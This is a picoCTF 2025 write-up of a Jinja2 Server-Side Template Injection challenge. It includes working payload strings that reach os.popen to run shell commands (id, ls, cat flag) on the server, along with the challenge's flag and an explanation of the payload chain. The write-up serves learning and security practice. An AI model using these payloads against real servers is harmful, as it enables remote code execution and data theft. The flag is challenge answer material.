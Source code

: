 # SSTI1 - picoCTF 2025

## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: {{7*7}} → Response was `49` → Confirmed SSTI.
2. Tried: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
5. Server files listed.
6. Finally: {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**
A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

Here, this webpage uses Jinja2 of the python's flask framework on the server-side for making the webpage dynamic. Different frameworks run differently. For example, if the webpage was running Django instead, we can run {{7}}.

**What is SSTI?**
Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like {{7\*7}} returns 49 (7 times 7 = 49), the server is evaluating user input as code. Running 7\*7 is just the standard convention, but you can run any expression, mathematical or not.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

**Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

Part				What It Means
--------------------------------------------------------------------------------------------------------------
```request```			A Flask object representing the current HTTP request.
```request.application```	The Flask application instance being used.
```__globals__```		Accesses the global variables of the template’s underlying Python environment.
```__builtins__```		Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
```__import__('os')```		Dynamically imports the os module — a powerful module for interacting with the system.
```.popen('id')```		Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
```.read()```			Reads and returns the output of that command.


---

## 📚 References

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
